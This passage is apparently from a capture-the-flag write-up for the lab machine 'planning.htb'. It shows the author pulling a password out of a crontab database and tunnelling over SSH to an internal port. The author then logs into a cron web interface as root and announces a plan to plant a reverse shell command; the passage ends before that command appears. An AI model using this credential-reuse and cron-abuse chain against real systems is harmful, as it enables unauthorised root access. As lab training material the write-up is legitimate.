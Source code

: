 ![](gitbook/cybersecurity/images/Pasted%20image%2020250601153429.png)

We got two interesting stuff, first, port `8000` is open inside of the machine, we can use ssh tunneling to access to it, then, we got a `crontab.db` file inside of `/opt/crontab`, let's get the db and take a look at it:

```json
cat crontab.db | jq
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

As seen, we get a password, let's do ssh tunneling and check if there's any login page:

```
ssh -L 9000:127.0.0.1:8000 enzo@planning.htb
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250601153920.png)

As expected, we need to use the credentials:

```
root:P4ssw0rdS0pRi0T3c
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250601154055.png)

There we go, now, in order to get a root shell, we need to analyze the behavior of this, for example, we can check that we can create and run commands, so we can simply create a reverse shell command and run it:
